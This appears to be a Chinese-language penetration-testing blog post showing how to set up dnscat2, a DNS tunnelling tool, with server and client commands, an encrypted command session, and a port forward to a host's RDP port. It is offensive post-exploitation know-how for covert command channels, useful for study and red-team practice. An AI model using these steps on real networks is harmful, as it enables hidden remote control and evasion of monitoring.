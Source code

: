 ```yaml
---
title: "dnscat2 代理隧道"
date: 2019-07-08T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['port']
categories: ['内网渗透']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


dnscat2 是一款基于 DNS 协议的代理隧道. 不仅支持端口转发, 另外还有执行命令, 文件传输等功能, 不过实测下来都不怎么好用.

其原理与 DNS Log 类似, 分为直连和中继两种模式, 前者直接连接服务端的 53 端口, 速度快, 但隐蔽性差, 后者通过对所设置域名的递归查询进行数据传输, 速度慢, 但隐蔽性好.

关于中继模式中的域名配置, 请参考 cobalt strike 的 `dns_becaon`

服务端由 ruby 编写, 客户端由 C 编写, 另有 powershell 版本.

<!--more-->

```
# ruby dnscat2.rb
New window created: 0
New window created: crypto-debug
Welcome to dnscat2! Some documentation may be out of date.

auto_attach => false
history_size (for new windows) => 1000
Security policy changed: All connections must be encrypted
New window created: dns1
Starting Dnscat2 DNS server on 0.0.0.0:53
[domains = n/a]...

It looks like you didn't give me any domains to recognize!
That's cool, though, you can still use direct queries,
although those are less stealthy.

To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=33971b1d1593d219ac8ed615d5339180

Of course, you have to figure out <server> yourself! Clients
will connect directly on UDP port 53.

dnscat2> 
```

每次运行都会有不同的 secret key 生成.

```
C:\> dnscat2.exe  --dns server=192.168.1.100,port=53 --secret=33971b1d1593d219ac8ed615d5339180
Creating DNS driver:
 domain = (null)
 host   = 0.0.0.0
 port   = 53
 type   = TXT,CNAME,MX
 server = 192.168.1.100

** Peer verified with pre-shared secret!

Session established!
```

在 dnscat2 中, 会话被称之为 window, 因为在会话间的切换需要用到 `ctrl-z`.

```
dnscat2> New window created: 1
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)

dnscat2> windows
0 :: main [active]
  crypto-debug :: Debug window for crypto stuff [*]
  dns1 :: DNS Driver running on 0.0.0.0:53 domains =  [*]
  1 :: command (LAPTOP) [encrypted and verified] [*]
dnscat2> 
```

创建一条端口转发.

```
(the security depends on the strength of your pre-shared secret!)
This is a command session!

That means you can enter a dnscat2 command such as
'ping'! For a full list of clients, try 'help'.

command (LAPTOP) 1> listen 1234 127.0.0.1:3389
Listening on 0.0.0.0:1234, sending connections to 127.0.0.1:3389
command (LAPTOP) 1> 
```

至于更多用法请参阅 [README.MD](https://github.com/iagox86/dnscat2/blob/v0.07/README.md)